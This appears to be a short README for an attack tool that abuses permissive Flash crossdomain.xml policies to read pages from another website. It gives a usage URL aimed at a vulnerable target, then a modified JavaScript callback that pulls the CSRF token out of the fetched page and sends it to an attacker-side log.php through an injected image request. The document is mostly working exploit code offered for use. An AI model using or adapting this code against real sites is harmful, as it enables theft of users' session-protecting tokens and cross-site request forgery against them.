 # crossdomain
Crossdomain exploiting - insecure flash file documents

### How to use this?

```
index.php#http://websitewiththeinsecurecrossdomain.xml/pageyouwant
```

### How do I handle the data?

In `crossdomain.js` there is a callback function, this function receives all the content sent through the flash file that loads the data from the remote website. To exploit it further you can change the crossdomain.callback function to handle the data.

######As preview:
```
'callback': function (data) {
  console.log(data);
}
```

Can become something like:

```
'callback': function (data) {
  var response = data.match('csrf value=(.*)>');
  if(response != null) {
    var img = document.createElement("img");
    img.src = "log.php?response=" + escape(JSON.parse(response));
    
    var src = document.getElementById("header");
    src.appendChild(img);
  }
}
```
